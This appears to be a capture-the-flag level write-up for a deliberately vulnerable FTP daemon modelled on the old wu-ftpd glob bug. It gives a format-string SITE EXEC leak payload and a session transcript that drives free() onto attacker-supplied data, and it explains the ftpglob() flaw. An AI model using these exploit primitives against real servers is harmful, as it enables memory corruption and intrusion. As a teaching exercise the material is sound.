 Water Dragon

This level brings back the fun of the old wu-ftpd daemon.

To info leak heap/stack addresses, use 

SITE EXEC %p%p%p%p.%p%p%p%p.%p%p%p%p.%p%p%p%p.

(Just for kicks, I made 'n' not inputable into SITE EXEC commands :P)

To pass an arbitrary address to free(), do

```
úsame anónimo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
200 Login OK
úsame anónimo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
200 Login OK
CWD ~{
331 Unable to change working directory to "~{"
LOGIN anonymous B
200 Successfully logged in!
CWD ~{
Segmentation fault (core dumped)
```

and it will die on free() trying to access a bunch of A's.

To tl;dr the ftpglob() vulnerability, it's meant to return NULL if there's no results, but ~{ makes it return

char \*\*results = [ NULL ]

and the code assumes that if results is !NULL, then results contains at least one pointer, and then

blkfree(&results[1]), which does free(old data on heap)

The úsame anónimo  bit is critical, as that accepts [\x01-\x1f\x21-\xff] as input and strdup's it

---

Any malloc implementation should work if you can pass it an arbitrary use supplied pointer for free and
do something interesting with it. 
